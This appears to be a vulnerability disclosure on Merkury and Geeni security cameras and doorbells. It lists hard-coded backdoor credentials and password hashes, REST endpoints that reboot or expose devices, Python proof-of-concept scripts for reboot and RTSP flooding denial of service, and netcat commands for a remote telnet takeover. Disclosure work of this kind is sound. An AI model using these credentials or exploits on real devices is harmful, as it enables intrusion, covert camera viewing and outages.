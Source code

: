 # Merkury Innovations / Geeni Multiple Disclosures

## Vulnerabilities

We uncovered multiple vulnerabilities in your Merkury Innovations and Geeni Security Camera and Doorbell product lines. 

## Affected Devices and Services

We uncovered vulnerabilities in seven Merkury and Geeni products that represent six different firmware versions.

The following section describes the following vulnerabilities in detail.

| Device | Type | FW Version | Telnet Service | RESTful API | Web Interface | RTSP Server |
|-------|------|------------|----------------|-------------|---------------|-------------|
| GNC-CW013 | Doorbell | 1.8.1 |  x   |    |  x |  x  |
| GNC-CW003 | Camera | 1.10.16 |     |  x  |   |    |
| GNC-CW010 | Camera | 1.3.5   |  x   |    |   |    |
| GNC-CW028 | Camera | 2.7.2   |  x   |  x  |   |    |
| GNC-CW025 | Doorbell | 2.9.5 |     |  x  |   |    |
| MI-CW024  | Doorbell | 2.9.6 |     |  x  |   |    |
| MI-CW017  | Camera | 2.9.6   |     |  x  |   |    |

- Telnet enabled with hard-coded credentials
- RESTful command server with hard-coded credentials.
- Streaming video application with hard-coded credentials.
- RSTP Daemon denial of service.
- RTSP Daemon remote code execution. 

###  Hard-coded credentials with Telnet service enabled

A vulnerability exists in the Telnet service of Firmware Version 1.3.5 that allows a remote attacker to take full control of the device with a high-privileged account. The vulnerability exists because a system account has a default and static password. An attacker could exploit this vulnerability by using this default account to connect to the affected system. A successful exploit could allow the attacker to gain full control of an affected device. This exists because the following administrator password hashes are statically built into the firmware. These hashes exist on the SPI flash of the device or can be retrieved through the RESTful interface as described in the following section.

    - Firmware 1.8.1   root:$1$zZjlr1sx$KnnqY6wT2GshVK5dRIlx4 (apix)
    - Firmware 2.7.2   root:$1$12345678$CTq8UQyYrE.vbbG7E8Mtj1 (unknown)

In the following versions of firmware, telnetd is either enabled or can be enabled through the RESTful command interface by calling /sys/telnetd/switch as described in the following section.

    - Firmware 1.8.1   Telnet is enabled by default
    - Firmware 2.7.2   Telnet can be enabled through the restful interface

### RESTful API with Hard-coded Credentials

A vulnerability exists in the RESTful Services API running on various Geenie and Merkury product lines that allows a remote attacker to take full control of the camera with a high-privileged account. The vulnerability exists because a static username and password are compiled into the ppsapp RESTful application. An attacker could exploit this vulnerability by using this default account to connect to the affected system. The default username admin and password of 056565099. On Firmware version 1.35, this differs with the username admin and default password admin.

A successful exploit could allow the attacker to gain full control of an affected device. The following supported RESTful commands could lead to a disclosure of sensitive information, denial of service, or unauthenticated access.

- /proc/self/root/etc/passwd (Only > 2.00)
- /sys/info
- /sys/reboot
- /sys/factory_reset
- /sys/telnetd/switch (Only == 2.7.2)
- Sensitive information disclosure
- Sensitive information disclosure
- Denial of service
- Denial of service
- Allows unauthenticated access

```python
import requests
   from requests.auth import HTTPBasicAuth
   host = ’192.168.1.2’
   user=’admin’
   pswd=’056565099’
   while True:
      auth=auth=HTTPBasicAuth(user,pswd)
      url = ’http://’+host+’/devices/reboot’
      res=requests.post(url,auth=auth)
```

### Streaming Video Application with Hard-coded Credentials

A vulnerability in the Geeni DoorScreen Doorbell running Firmware 1.8.1 that allows a remote attacker to take full control of the camera with a high-privileged account. The vulnerability ex- ists because a static username and password are compiled into a shared library used to provide the streaming camera service. An attacker could exploit this vulnerability by using this default account to connect to the affected system.

The Geenie DoorScreen Doorbell running Firmware Version 1.8.1 uses the libhipcam.so library to authenticate users to the camera system. It contains a backdoor account that is not logged and statically compiled into the library as depicted in the following figure. Thus, an unauthenticated user can log into the system using the username ”apexis” and password ”008”.

An unauthenticated user can login to a device using these hard-coded credentials and remotely view the doorbell camera.

### RSTP Daemon Denial of Service


A denial of service issue issue exists with the RSTPd server running on various Geenie Doorbell and Security Cameras. A remote attacker may cause an unexpected application termination, which triggers a device reboot and can lead to a permanent denial of service.

The vulnerability exists in the receive buffer handling on TCP port 38401 of the RTSPd daemon. Sending periodic and large messages to TCP/38401 will cause a denial of service attack in which the RSTP daemon shuts down, reboots the device, and/or hangs indefinitely. Although we have yet to prove it, it may be feasible that this vulnerability could lead to remote code execution conditions. Proof of concept code is depicted below.

```python

from pwn import *
   target = ’192.168.1.2’
   port = 38401
   io = remote(target,port)
   for i in range(1,100):
     sleep(0.5)
     io.send(cyclic(i*128*10))
     io.sendline()
 
 ```

 ### RTSP Daemon remote code execution

A vulnerability exists in the RTSP service that allows a remote attacker to take full control of the device with a high-privileged account. By sending a specially crafted message, an attacker is able to remotely deliver a telnet session. Its important to note that any attacker upstream from the victim can initiate this attack, including an ISP or network-admin.

A proof of concept attack flow follows. We assume an attacker has the ability to control DNS and can redirect apexisalarm.com to a host under their control. Then an attacker can open netcat on UDP port 8089 and wait for the RTSP daemon to connect. Upon connecting, an attacker can send cmd:start apx console, which will send a telnet session to the attacker’s IP on TCP port 9089.

```
$ nc -4 -l -v -p 8089 -u -v
   cmd:start apx console
```

Upon receiving the telnet session, the attacker may login with the username/passwords discovered previously in this report.

```
 $ nc -4 -l -v -p 9089 -v -k
   (none) login: root
   root
   Password: apix
   apix
   Welcome to HiLinux
   ~#
```


